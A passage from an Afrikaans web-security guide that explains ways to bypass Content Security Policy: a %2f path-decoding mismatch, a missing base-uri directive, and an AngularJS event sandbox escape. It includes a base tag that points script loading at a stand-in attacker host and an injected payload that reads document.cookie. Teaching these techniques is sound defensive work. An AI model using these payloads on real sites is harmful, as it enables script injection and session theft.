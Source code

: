 Dit werk omdat jy vir die blaaiers 'n lêer met die naam `..%2fangular%2fangular.js` laai wat geleë is onder `https://example.com/scripts/react/`, wat voldoen aan CSP.

∑, hulle sal dit decodeer, wat effektief `https://example.com/scripts/react/../angular/angular.js` versoek, wat gelyk is aan `https://example.com/scripts/angular/angular.js`.

Deur **hierdie inkonsekwentheid in URL-interpretasie tussen die blaaiers en die bediener te benut, kan die padreëls omseil word**.

Die oplossing is om nie `%2f` as `/` aan die bedienerkant te behandel nie, wat 'n konsekwente interpretasie tussen die blaaiers en die bediener verseker om hierdie probleem te vermy.

Aanlyn Voorbeeld:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Iframes JS uitvoering

{{#ref}}
../xss-cross-site-scripting/iframes-in-xss-and-csp.md
{{#endref}}

### ontbrekende **base-uri**

As die **base-uri** riglyn ontbreek, kan jy dit misbruik om 'n [**dangling markup injection**](../dangling-markup-html-scriptless-injection/) uit te voer.

Boonop, as die **bladsy 'n skrif laai met 'n relatiewe pad** (soos `<script src="/js/app.js">`) met 'n **Nonce**, kan jy die **base** **tag** misbruik om dit te **laai** vanaf **jou eie bediener wat 'n XSS bereik.**\
As die kwesbare bladsy met **httpS** gelaai word, gebruik 'n httpS-URL in die basis.
```html
<base href="https://www.attacker.com/" />
```
### AngularJS gebeurtenisse

'n Spesifieke beleid bekend as Content Security Policy (CSP) mag JavaScript gebeurtenisse beperk. Nietemin, AngularJS stel persoonlike gebeurtenisse as 'n alternatief bekend. Binne 'n gebeurtenis bied AngularJS 'n unieke objek `$event`, wat na die inheemse blaaiersgebeurtenis objek verwys. Hierdie `$event` objek kan benut word om die CSP te omseil. Opmerklik, in Chrome, het die `$event/event` objek 'n `path` attribuut, wat 'n objekarray bevat wat betrokke is by die gebeurtenis se uitvoeringsketting, met die `window` objek altyd aan die einde. Hierdie struktuur is van kardinale belang vir sandbox ontsnappingstaktieke.

Deur hierdie array na die `orderBy` filter te rig, is dit moontlik om oor dit te herhaal, en die terminale element (die `window` objek) te benut om 'n globale funksie soos `alert()` te aktiveer. Die gedemonstreerde kode-snippet hieronder verduidelik hierdie proses:
```xml
<input%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27>#x
?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
```
Hierdie snit beklemtoon die gebruik van die `ng-focus` riglyn om die gebeurtenis te aktiveer, deur `$event.path|orderBy` te gebruik om die `path` array te manipuleer, en die `window` objek te benut om die `alert()` funksie uit te voer, wat `document.cookie` onthul.

**Vind ander Angular omseilings in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
